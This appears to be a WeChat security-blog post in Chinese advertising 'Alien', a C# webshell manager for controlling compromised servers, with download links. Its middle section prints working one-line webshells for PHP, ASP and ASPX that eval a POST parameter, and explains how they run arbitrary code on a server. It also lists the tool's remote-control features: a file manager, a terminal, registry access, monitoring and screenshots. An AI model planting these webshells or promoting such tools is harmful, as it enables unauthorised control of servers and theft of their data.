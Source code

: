 #  一款新的webshell管理工具

malbuffer4pt  [ 昊天信安 ](javascript:void\(0\);)

**昊天信安** ![]()

微信号 cniaosec

功能介绍 致力于分享渗透实战、红蓝工具、漏洞复现、代码审计、应急响应等技术及工具。

____

___发表于_

收录于合集

**项目简介**

##  **语言**

C# .NET Framework V4.8

##  **功能**

  * File Manager （可显示图片， 可SearchFile）
  * 虚拟终端
  * 数据库
  * 注册表
  * 监控
  * 截图
  * 系统信息

 **项目描述**

##  **一句话木马**

一句话木马是在渗透测试中用来控制服务器的工具  
强大之处在于木马本身体积小，不易发现  
以下是最简单的一句话木马

  *   *   *   * 

    
    
    PHP <?php @eval($_POST['password']);?>ASP <%execute(request("password"))%>ASPX <%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>当然， Alien还可以使用asmx， ashx等等的Webshell。NodeJS和JSP https://github.com/malbuffer4pt/Alien/blob/main/shell.txt

 **关于JSP webshell**  
目前只有比较原始的菜刀版本， 之后可能会加上蚁剑和冰蝎  
shell有进行更改， 新增了可以显示图片的功能 **关于NodeJS webshell** 由于NodeJS特性， 原理跟一般php asp
aspx等动态语言的shell不同，  
NodeJS目的重在管理而非渗透 **伺服器** Windows， Linux， Unix， MacOS **Database管理** MySQL
：PHP交通 ：https://github.com/malbuffer4pt/DBerSQL Server ：ASP ASPX ASMX ASHX

##  **原理**

以PHP为例子， eval（）可以把string以PHP Code去执行，  
如果eval（）中带有可控变量，那么就可以执行任意代码。  
如eval（$_POST['a']）;  
HTTP POST a=phpinfo(); 就可以执行phpinfo（）; **注意!**

  * 工具Payloads文件夹内有符合恶意程序的Payload， 可能会被防毒删除
  * 目前只有删减版，但部份代码没有删除，Disassemble应该会有奇怪但无法使用的东西

 **图片**  

![]()

![]()

![]()

![]()

![]()

![]()

![]()

![]()

![]()

![]()

![]()

![]()

 **下载地址** 1\.  链接：https://pan.quark.cn/s/49fd7d9478f1  
2.  https://github.com/malbuffer4pt/Alien![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

